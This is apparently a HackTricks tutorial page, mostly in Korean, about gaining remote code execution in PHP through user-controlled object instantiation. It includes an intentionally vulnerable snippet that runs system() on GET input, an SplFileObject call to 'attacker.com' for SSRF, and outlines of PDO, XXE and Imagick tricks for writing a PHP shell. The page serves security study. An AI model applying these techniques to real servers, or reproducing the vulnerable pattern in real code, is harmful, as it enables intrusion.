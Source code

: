 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

This is basically a summary of [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduction

새로운 임의 객체의 생성, 예를 들어 `new $_GET["a"]($_GET["a"])`는 원격 코드 실행(RCE)으로 이어질 수 있으며, 이는 [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 자세히 설명되어 있습니다. 이 문서는 RCE를 달성하기 위한 다양한 전략을 강조합니다.

## RCE via Custom Classes or Autoloading

구문 `new $a($b)`는 객체를 인스턴스화하는 데 사용되며, 여기서 **`$a`**는 클래스 이름을 나타내고 **`$b`**는 생성자에 전달되는 첫 번째 인수입니다. 이러한 변수는 GET/POST와 같은 사용자 입력에서 문자열 또는 배열로, 또는 JSON에서 다른 유형으로 나타날 수 있습니다.

아래의 코드 스니펫을 고려하십시오:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
이 경우, `$a`를 `App` 또는 `App2`로 설정하고 `$b`를 시스템 명령어(예: `uname -a`)로 설정하면 해당 명령어가 실행됩니다.

**자동 로딩 함수**는 그러한 클래스에 직접 접근할 수 없는 경우 악용될 수 있습니다. 이러한 함수는 필요할 때 파일에서 클래스를 자동으로 로드하며, `spl_autoload_register` 또는 `__autoload`를 사용하여 정의됩니다:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
PHP 버전에 따라 자동 로딩의 동작이 달라지며, 다양한 RCE 가능성을 제공합니다.

## 내장 클래스에 의한 RCE

사용자 정의 클래스나 자동 로더가 부족한 경우, **내장 PHP 클래스**가 RCE에 충분할 수 있습니다. 이러한 클래스의 수는 PHP 버전과 확장에 따라 100에서 200 사이입니다. `get_declared_classes()`를 사용하여 나열할 수 있습니다.

관심 있는 생성자는 반사 API를 통해 식별할 수 있으며, 다음 예제와 링크 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)에서 확인할 수 있습니다.

**특정 메서드를 통한 RCE에는 다음이 포함됩니다:**

### **SSRF + Phar 역직렬화**

`SplFileObject` 클래스는 생성자를 통해 SSRF를 가능하게 하여, 모든 URL에 연결할 수 있습니다:
```php
new SplFileObject('http://attacker.com/');
```
SSRF는 Phar 프로토콜을 사용하는 PHP 8.0 이전 버전에서 역직렬화 공격으로 이어질 수 있습니다.

### **PDO 악용하기**

PDO 클래스 생성자는 DSN 문자열을 통해 데이터베이스에 연결할 수 있게 하여, 파일 생성 또는 기타 상호작용을 가능하게 합니다:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP 5.3.22 및 5.4.12 버전까지는 `SoapClient` 및 `SimpleXMLElement` 생성자를 통해 XXE 공격에 취약했습니다. 이는 libxml2 버전에 따라 달라집니다.

## RCE via Imagick Extension

**프로젝트의 의존성** 분석에서 **Imagick**가 새로운 객체를 인스턴스화하여 **명령 실행**에 활용될 수 있음을 발견했습니다. 이는 취약점을 악용할 기회를 제공합니다.

### VID parser

파일 시스템의 지정된 경로에 콘텐츠를 쓸 수 있는 VID 파서 기능이 확인되었습니다. 이는 웹 접근이 가능한 디렉토리에 PHP 셸을 배치하여 원격 코드 실행(RCE)을 달성할 수 있습니다.

#### VID Parser + File Upload

PHP는 업로드된 파일을 `/tmp/phpXXXXXX`에 임시로 저장하는 것으로 알려져 있습니다. **msl** 프로토콜을 활용하는 Imagick의 VID 파서는 파일 경로에서 와일드카드를 처리할 수 있어 임시 파일을 선택한 위치로 전송할 수 있습니다. 이 방법은 파일 시스템 내에서 임의 파일 작성을 달성하는 추가적인 접근 방식을 제공합니다.

### PHP Crash + Brute Force

[**원본 작성물**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 설명된 방법은 삭제 전에 서버 충돌을 유발하는 파일을 업로드하는 것입니다. 임시 파일의 이름을 무작위로 시도함으로써 Imagick가 임의의 PHP 코드를 실행할 수 있게 됩니다. 그러나 이 기술은 구버전의 ImageMagick에서만 효과적인 것으로 나타났습니다.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
